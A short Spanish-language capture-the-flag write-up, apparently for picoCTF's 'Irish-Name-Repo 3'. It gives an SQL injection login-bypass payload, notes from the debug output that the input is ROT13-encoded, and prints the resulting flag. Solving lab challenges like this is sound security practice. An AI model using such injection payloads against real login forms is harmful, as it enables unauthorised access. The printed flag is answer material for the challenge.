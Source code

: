 # Irish-Name-Repo 3

## Objetivos
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/29132/` ([link](https://jupiter.challenges.picoctf.org/problem/29132/)) or http://jupiter.challenges.picoctf.org:29132. Try to see if you can login as admin!


## Solución 
```bash
Password =' or 1==1;


password: ' or 1==1;
SQL query: SELECT * FROM admin where password = '' be 1==1;'


# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}
```

## Notas adicionales 
al cambiar  el valor de debug a 1 e intentar la poner la contraseña  `' or 1==1;` nos aparece este menseje ` SQL query: SELECT * FROM admin where password = '' be 1==1;`  lo que indica que esta encriptada con la tecnica ROT 13 aparentemente, podeos utilizar una pagina como cyberchef para comprobar y efectivamente, entonces podemos utilizar  `' be 1==1;` como contraseña 